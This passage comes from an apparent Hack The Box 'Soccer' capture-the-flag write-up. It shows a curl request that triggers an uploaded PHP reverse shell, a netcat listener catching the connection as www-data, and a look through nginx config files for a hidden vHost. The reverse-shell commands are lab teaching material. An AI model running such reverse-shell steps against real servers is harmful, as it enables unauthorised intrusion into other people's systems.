 ```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://soccer.htb/tiny/uploads/rshell.php
```

Before that, I opened a `netcat` listener, which took the reverse shell connection soon.

```sql
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.194] 36350
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 08:06:51 up  1:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I got a shell!


# Shell as `player`

### Enumeration

First, let's take a look at `nginx` settings file.

```ruby
www-data@soccer:/etc/nginx/sites-enabled$ ls
ls
default  soc-player.htb
```

There's another vHost named `soc-player.htb`..

```bash
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb
cat soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```
